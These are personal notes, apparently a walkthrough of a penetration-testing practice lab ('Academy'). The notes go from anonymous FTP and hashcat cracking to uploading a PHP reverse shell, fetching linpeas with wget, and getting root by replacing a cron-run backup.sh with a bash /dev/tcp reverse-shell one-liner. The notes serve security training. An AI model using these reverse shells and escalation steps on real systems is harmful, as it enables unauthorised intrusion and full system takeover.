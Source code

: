  Walkthrough Username:root  
passwd:tcm  
  
![](academy/walkthrough/Attachments/image.png)  
  
apache server probably means php in backend  
  
  
  
![](image 2.png)  
  
anonymous login to ftp:  
username:anonymous(random try)  
passwd:anonymous  
  
login was successful  
  
![](image 3.png)  
nmap revealed that there was a file note.txt  
![](image 24.png)  
  
![](image 4.png)  
  
copy the password hash  
#hash-identifier  
tool built in kali linux  
paste the hash  
  
  
![](image 5.png)  
  
  
possible md5 hash  
  
tool for passwd cracking:hashcat  
\*hascracking uses GPU not CPU so try to run on main OS and not VM  
  
#hashcat –m 0 hashes.txt /usr/share/wordlists/rockyou.txt  
![](image 6.png)  
  
  
![](image 7.png)  
  
password is student,we also have the username and userID from note.txt we got from ftp  
  
#dirb http://192.168.57.8  
for directory busting:no need for worlists  
  
another tool:ffuf for directory busting  
  
![](image 8.png)  
\-w:wordlists  
\-u:url  
replace Fuzz in url with wordlists words  
  
  
![](image 9.png)  
  
go to http://192.168.57.8/academy  
put the credentials  
  
right click on img->open image in new tab:to see where image is stored  
![](image 10.png)  
  
instead of img,try to upload a malware,if typeof file check is not done  
  
google php reverse shell:go to pentestmonkey  
copy .php file raw and paste it in file->paste in shell.php  
change ip in the php file to attacker machine ip  
  
#nc -nlvp 1234  
port should be same as that in shell.php  
  
now upload the shell file i.e shell.php  
and we get a reverse shell  
  
![](image 11.png)  
  
we are not root  
  
![](image 12.png)  
  
so we need to perform privilage escalation  
  
tool for privilage escalation on linux:linpeas(github:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)  
  
#cd transfer(folder containing linpeas.sh)  
#python3 -m http.server 80  
host that folder on a server so that we can download it on victim using wget  
  
in academy reverse shell we got  
#cd tmp  
#pwd  
#wget http://<serverIP>/linpeas.sh  
  
  
Wget is the non-interactive network downloader which is used to download files from the server even  
when the user has not logged on to the system and it can work in the background without hindering the current process.   
  
![](image 13.png)  
  
  
  
![](image 14.png)  
  
/var/www/html/academy/includes/config.php  
#cat /var/www/html/academy/includes/config.php  
  
![](image 15.png)  
  
  
![](image 16.png)  
![](image 17.png)  
  
/etc/passwd:shows grimmie is administator  
  
#ssh grimmie@192.168.57.8  
  
![](image 18.png)  
  
now we are in the machine as grimmie:  
  
![](image 19.png)  
looks like backup.sh runs periodically  
  
tool:pspy  
![](image 20.png)  
  
#chmod +x pspy  
this shows all process running on the machine and we can see them even without sudo privilages  
  
try to find backup.sh because it looked like backup.sh was running periodically  
  
  
![](image 21.png)  
  
backup.sh running every minute  
  
google:bash reverse shell one liner:https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
  
#bash -i >& /dev/tcp/<attackerIP>/8080 0>&1  
  
we have a shell script:backup.sh  
we put this one liner in the shell script and it will perform reverse shell  
  
in grimmie:  
#nano backup.sh  
delete existing code and replace with reverse shell one liner  
  
  
in kali:  
#nc -nvlp 8080  
wait for some time coz script runs every minute  
  
and we get a reverse shell as root this time  
![](image 22.png)  
  
  
![](image 23.png)